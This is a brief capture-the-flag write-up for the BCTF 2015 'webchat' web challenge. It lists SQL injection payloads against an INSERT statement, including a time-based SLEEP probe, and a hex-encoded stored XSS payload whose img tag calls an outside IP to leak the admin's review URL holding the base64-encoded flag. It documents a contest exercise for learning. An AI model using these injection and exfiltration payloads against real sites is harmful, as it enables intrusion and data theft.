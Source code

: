 ## BCTF 2015 - webchat (Web 325)
##### 21-23/03/2015 (48hr)
___

### Description: 
http://146.148.60.107:9991/
___

It's a classic SQLi on INSERT statement:
```
foo' 'bar
foo',0x61),('foo
foo',0x61, 0x62),('foo
bar'), ('asd					--> 35146 foo: bar (it doesn't send the last one)
bar', 0x62 ), (0x61,'asd
bar'), (SLEEP(2)), ('bla		--> works! returns after 2 secs! :)
```
The SQL statement is:
```
	insert into t values('nick', 'msg')
	insert into t values('nick', 'msg'),('asd')
```

Let's try XSS because we know that the admin will read our messages:
```
'),(0x3c696d67207372633d22687474703a2f2f3132382e3231312e3138392e32312f666f6f223e),('	
--> (hex encode of: <img src="http://128.211.189.21/foo"> )
```

From the logs we can see the flag in referral:
```
http://127.0.0.1:9991/review?pass=QkNURnt4c3NfaXNfbm90X3RoYXRfZGlmZmljdWx0X3JpZ2h0fQ==&id=40379
```

We base64 decode the pass: QkNURnt4c3NfaXNfbm90X3RoYXRfZGlmZmljdWx0X3JpZ2h0fQ== and we get the flag: 
**BCTF{xss_is_not_that_difficult_right}**
___